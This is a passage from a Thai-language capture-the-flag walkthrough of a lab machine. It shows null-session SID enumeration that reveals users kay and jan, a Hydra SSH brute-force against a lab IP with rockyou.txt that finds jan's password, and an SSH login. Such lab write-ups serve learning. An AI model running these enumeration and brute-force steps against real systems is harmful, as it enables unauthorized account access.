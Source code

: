 ```shell

[I] Found new SID: 
S-1-22-1

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

[+] Enumerating users using SID S-1-5-21-2853212168-2008227510-3551253869 and logon username '', password ''

S-1-5-21-2853212168-2008227510-3551253869-501 BASIC2\nobody (Local User)
S-1-5-21-2853212168-2008227510-3551253869-513 BASIC2\None (Domain Group)

```
เราจะได้ชื่อมาทั้งหมด 2 คนได้แก่ `kay and jan` จากนี้ เราจะทำการค้นหารหัสผ่าน ssh ของ jan เพื่อเข้าถึง server
## Step 4 Brute force ssh with hydra
เราจะใช้ hydra มาทำการค้นหารหัสผ่านโดยใช้ wordlists -> rockyou.txt
```shell
┌──(root㉿kali)-[~]
└─# hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.111.12
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[22][ssh] host: 10.10.111.12   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
```
เราก็จะได้ `password:armando` ต่อไปเราจะล็อกอินเข้าไปใน server 
```shell
┌──(root㉿kali)-[/home/kali/Downloads]
└─# ssh jan@10.10.111.12
jan@basic2:~$ cd ..
jan@basic2:/home$ ls
jan  kay
jan@basic2:/home$ 
jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ ls -la
```
